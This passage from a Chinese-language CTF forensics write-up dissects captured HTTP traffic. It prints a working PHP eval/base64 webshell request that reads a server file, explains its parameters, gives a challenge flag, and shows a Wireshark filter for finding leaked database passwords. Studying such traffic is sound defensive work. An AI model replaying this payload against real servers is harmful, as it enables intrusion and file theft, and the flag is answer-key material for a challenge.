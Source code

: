     * 表示请求主体的MIME类型是表单数据编码。
6. **Content-Length: 365**:

    * 表示请求主体的长度。

**HTTP 请求体**

	1234=@eval.(base64_decode($_POST[action]));&action=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskRj1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JFA9QGZvcGVuKCRGLCJyIik7ZWNobyhAZnJlYWQoJFAsZmlsZXNpemUoJEYpKSk7QGZjbG9zZSgkUCk7O2VjaG8oInw8LSIpO2RpZSgpOw%3D%3D&z1=L3Zhci93d3cvaHRtbC9yb2JvdHMudHh0

* **1234=@eval.(base64_decode($_POST[action]));** :

  * 这是一个恶意代码，试图利用PHP中的`eval()`​函数执行被base64编码的POST参数`action`​中的内容。
* **action=QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0%2BfCIpOzskRj1iYXNlNjRfZGVjb2RlKCRfUE9TVFsiejEiXSk7JFA9QGZvcGVuKCRGLCJyIik7ZWNobyhAZnJlYWQoJFAsZmlsZXNpemUoJEYpKSk7QGZjbG9zZSgkUCk7O2VjaG8oInw8LSIpO2RpZSgpOw%3D%3D**:

  * 这个值是一个base64编码的字符串。解码后，它包含实际要在服务器上执行的PHP代码。
* **z1=L3Zhci93d3cvaHRtbC9yb2JvdHMudHh0**:

  * 这个参数可能是用来传递额外的数据的，通常在这种攻击中用来指定目标路径或文件。

**这题就是需要些耐心，我个人也找了很久，没办法，在没有确切的信息时（flag），只能比谁的眼睛更锋利；**

	flag{87b7cb79481f317bde90c116cf36084b}

#### 步骤#1.3

##### 黑客找到的数据库密码 flag{xxxxxxxxxxxxxxxx}

<font color="#ff0000">解题思路</font>

**让我们查找数据库的密码，那这里我们就可以通过关键词去查找，例如“dbpass”、“dbuser”、“password”等。那有的人就会问了，password我知道，那为什么要筛选另外两个？**

**在Wireshark中筛选包含数据库用户名和密码的包时，使用关键词“dbuser”和“dbpass”是因为这些关键词通常出现在应用程序的配置文件中，用于定义数据库连接的凭据。**

1. **常见配置文件变量名称**：

    * 在许多应用程序的配置文件中，数据库用户名和密码通常被定义为变量，如“dbuser”和“dbpass”。这些变量名是常见的约定，很多开发者在代码中使用这些命名。
2. **快速定位敏感信息**：

    * 使用“dbuser”和“dbpass”作为关键词，可以快速缩小搜索范围，直接定位到包含数据库连接信息的配置文件或代码片段。这些文件通常包含敏感信息，是黑客重点关注的目标。

所以这里我们可以查找“dbpass"发现密码；

	http contains "dbpass"
